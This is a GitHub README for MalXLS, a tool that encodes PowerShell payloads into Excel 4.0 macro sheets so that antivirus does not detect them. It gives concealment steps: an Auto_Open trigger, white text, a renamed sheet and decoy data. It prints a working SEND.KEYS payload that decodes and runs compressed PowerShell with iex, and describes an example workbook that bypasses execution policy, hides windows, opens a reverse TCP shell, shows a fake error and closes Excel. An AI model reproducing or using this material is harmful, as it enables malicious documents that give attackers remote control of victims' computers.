

# Disclaimer

MalXLS is provided "as is", without warranty of any kind. The author of the project takes no responsibility for the abuse of anything provided and presented in the repository. Illegal usage of MalXLS is strictly prohibited.

# MalXLS

MalXLS is a quick way to encode undetected PowerShell payloads for Excel 4.0 Macro sheets.

Note that antivirus software may block the execution of certain PowerShell scripts even if the payload itself is undetected. It is the user's responsibility to work around the antivirus or disable it through other means.

### Why use the XLS format instead of XLSM? Why use Excel 4.0 Macros instead of VBA?

Read this blog post: https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

The important part starts at the ``Support for XLM`` section.

It is also not immediately obvious that the file contains a macro if it is saved under ``XLS`` instead of ``XLSM`` until the warning is displayed when opening the file.

## Getting Started

- Create a new Excel workbook and save it under the XLS format, then insert a new MS Excel 4.0 Macro sheet.
- (Optional) Delete the default sheet and rename the macro sheet to something less obvious
- Insert your payload into the macro sheet (preferrably in a random cell), then rename the first cell of the payload to ``Auto_Open`` to run the payload automatically when opening the file
  - For an example, see the provided ``Book1.xls`` file. It does not contain a cell named ``Auto_Open``
  - See [Usage](#usage) for instructions on generating a payload
- (Optional) Change the text color to ``WHITE`` and make sure the cells are the same size as regular cells
- Activate cell ``A1`` so that it is not immediately obvious where the payload is when opening the file
- (Optional) Insert some faux data at the beginning of the sheet

### Prerequisites

[.NET Framework 4.8](https://dotnet.microsoft.com/download/dotnet-framework/net48) is required to run the binary that computes payloads.

If you are using Windows 10 with the May 2019 Update (1903) you are good to go, otherwise you need to install it.

### Usage

The payload generator can be downloaded from the [Releases](https://github.com/davidcristian/MalXLS/releases) page. The source code is available in the ``Generate Payload`` directory.

```
Usage: .\ComputePayload.exe [OPTION]... [FILE]... [-C]
  -e    Compress a file using GZip and encode it into a base64 string
  -f    Fix the bad characters in a file (use on one-liners)
  -c    Copy the generated commands into the clipboard
```
Example:

```
.\ComputePayload.exe -e .\clear_history.ps1 -c 
=SEND.KEYS("$b=""H4sIAAAAAAAEAJWQQWsCMRCF7wv{+}h0Es7h42h14KggeRWkvVLkbwID2k7sgGshnZjMoi/vcm7hZb8NDeMpm8L{+}{+}9XqGOmMklqtxoizCEuGcPxkDqh/gFOZ1TfjAI6fMIpDZo2dRjsqztAeEmTJJO1In0zst/ExM4dyKAsUFVpVNyHKbwboWO00xx0XxzU7zvWZNNxFQ7pqqWAeefeRAELcASSzpi{+}spYNraY9n{+}EtIQm4hAW"; TRUE)
=SEND.KEYS("eGoxq3qPMNEh6D88BdrlR7xmGy42c72tyNGORUYnrGSBxohM{+}uocGQzcmed{+}DAZXaauMfYsXQOPwXmvfrjeydt60WOLO4DYYEyPnsPw0tefNSOVrzUWmKtbKLFSJcbdVrLXN6eTEhKrSdZOr0XsrIdHmb1g7zwvHtdIc9x/Okyd4vPSTO4l9C1/sVYH1SwIAAA=="";nal no New-Object -F;iex {(}no IO.StreamReader{(}no "; TRUE)
=SEND.KEYS("IO.Compression.GZipStream{(}{(}no IO.MemoryStream -A @{(},{[}Convert{]}::FromBase64String{(}$b{)}{)}{)},{[}IO.Compression.CompressionMode{]}::Decompress{)}{)}{)}.ReadToEnd{(}{)}~{NUMLOCK}"; TRUE)
```

#

``Book1.xls`` breakdown:



1.  Disable all warnings and errors so that the macro never breaks
2.  Open PowerShell in a minimized state (keystrokes still go through)
3.  Wait 1 second
4.  Hide the PowerShell window
5.  Continuation of 4.
6.  Wait 1 second
7.  Open a 32bit PowerShell session if the current one is 64bit
8.  Wait 1 second
9.  Set the execution policy to bypass for the current session so that any script may run
10. Wait 1 second
11. Start a reverse TCP connection to 192.168.144.134 on port 4242 (Note that this is blocked by Windows Defender)
12. Continuation of 11.
13. Continuation of 11.
14. Wait 1 second
15. Activate the Excel window
16. Display a faux error message about there being an error when opening the file
17. Close Excel (no warnings will be shown due to 1.)

## Known Issues

- Sending large commands requires multiple wait instructions (usually every 3 cells). The cause for this is unknown because the ``TRUE`` switch for ``SEND.KEYS`` should wait for the keystrokes to be processed before going to the next instruction, which is not always the case and results in mixed keystrokes and a broken payload.

## License

This project is licensed under the GPLv3 License - see the [LICENSE](LICENSE) file for details

Files belonging to other authors have their license in the same directory as them.

## Acknowledgments

* PowerShell decoding, decompression, execution, hide_window.ps1, and assure_32bit.ps1 snippets from MaMe82's [helper.js](https://github.com/RoganDawes/P4wnP1_aloa/blob/master/dist/HIDScripts/helper.js) file for the [P4wnP1 A.L.O.A.
](https://github.com/RoganDawes/P4wnP1_aloa)
* PowerShell clear_history.ps1 script from [here](https://stackoverflow.com/a/38807689)
* PowerShell reverse_shell.ps1 script from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) (second one)
* [This](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf) excellent book
